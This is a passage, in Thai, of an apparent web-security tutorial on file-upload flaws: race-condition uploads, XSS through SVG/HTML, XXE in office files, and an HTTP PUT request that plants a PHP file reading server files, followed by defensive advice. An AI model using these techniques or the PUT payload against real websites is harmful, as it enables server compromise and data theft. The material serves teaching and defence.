1. อัปโหลดไฟล์ขึ้นไปเลย (ในที่ที่รันได้)
2. แล้วค่อยเช็ค (ใช้เวลา 2-3 วินาที)
3. ถ้าผิดก็ลบ

**นี่แหละคือโอกาส!** ในช่วง 2-3 วินาทีที่ไฟล์ยังอยู่ เราสามารถส่ง request ไปรันไฟล์นั้นได้!

## เทคนิคทำให้ง่ายขึ้น

**1. ยืดเวลา:**
- ส่งไฟล์ใหญ่ๆ เช่น 50MB
- ใส่โค้ดอันตรายไว้ข้างหน้า
- ข้างหลังเติมข้อมูลขยะให้ไฟล์ใหญ่
- ระบบจะใช้เวลานานกว่าในการเช็ค = เราได้เวลามากกว่า

**2. เดาชื่อไฟล์:**
- ถ้าระบบใช้ `uniqid()` ของ PHP มันเดาได้
- หรือลองเดาแบบ brute-force

**3. ส่งหลายๆ ครั้ง:**
- อัปโหลดไฟล์เดียวกันหลายครั้งพร้อมกัน
- เพิ่มโอกาสที่จะโดนช่วงเวลาที่เหมาะสม

## ทำไมมันอันตราย?

เพราะว่า:
- แม้ระบบจะมีการตรวจสอบที่ดี
- แต่ก็ยังมีช่วงเวลาสั้นๆ ที่เราใช้ประโยชน์ได้
- และแค่รันได้ครั้งเดียว เราก็ได้ shell เต็มระบบแล้ว


## การใช้ประโยชน์จากช่องโหว่ File Upload โดยไม่ต้อง Remote Code Execution

ในตัวอย่างที่เราดูมา เราสามารถอัปโหลดสคริปต์ฝั่งเซิร์ฟเวอร์เพื่อ remote code execution ได้ นี่เป็นผลที่ร้ายแรงที่สุดของฟังก์ชันอัปโหลดไฟล์ที่ไม่ปลอดภัย แต่ช่องโหว่เหล่านี้ยังคงสามารถถูกใช้ประโยชน์ในรูปแบบอื่นๆ ได้


**1. โจมตีฝั่งผู้ใช้ (Client-side)**
- อัปโหลดไฟล์ HTML หรือ SVG ที่มี `<script>` แอบอยู่
- พอคนอื่นเปิดดู = XSS! ได้ cookies หรือข้อมูลสำคัญ
- แต่ต้องเป็น origin เดียวกันนะ

**2. โจมตีผ่านการประมวลผลไฟล์**
- อัปโหลดไฟล์ .doc, .xls ที่มี XXE payload
- ตอนระบบแยกวิเคราะห์ไฟล์ = โดน XXE injection
- อ่านไฟล์ในระบบได้

**3. ใช้วิธี PUT**
- บางเซิร์ฟเวอร์รองรับ HTTP PUT
- ส่ง `PUT /shell.php` ไปตรงๆ เลย!
- ลอง `OPTIONS` ก่อนดูว่ารองรับมั้ย
```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

**วิธีป้องกันที่ดี:**
1. **ใช้ whitelist** - อนุญาตแค่ .jpg, .png, .pdf เท่านั้น (ไม่ใช่ห้าม .php, .asp...)
2. **เช็คชื่อไฟล์** - ห้ามมี `../` หรือเครื่องหมายแปลกๆ
3. **เปลี่ยนชื่อไฟล์** - สุ่มชื่อใหม่ ไม่ให้ทับไฟล์เก่า
4. **อย่าเก็บที่รันได้** - เก็บในโฟลเดอร์ที่รันไม่ได้ก่อน
5. **ใช้เฟรมเวิร์ก** - อย่าเขียนเอง ใช้ของที่คนอื่นทำไว้แล้ว

**สิ่งสำคัญ:** แม้จะไม่ได้ shell ก็ยังอันตรายได้ เพราะอาจได้ข้อมูลผู้ใช้คนอื่น หรือโจมตีคนที่มาเยี่ยมชมเว็บไซต์!

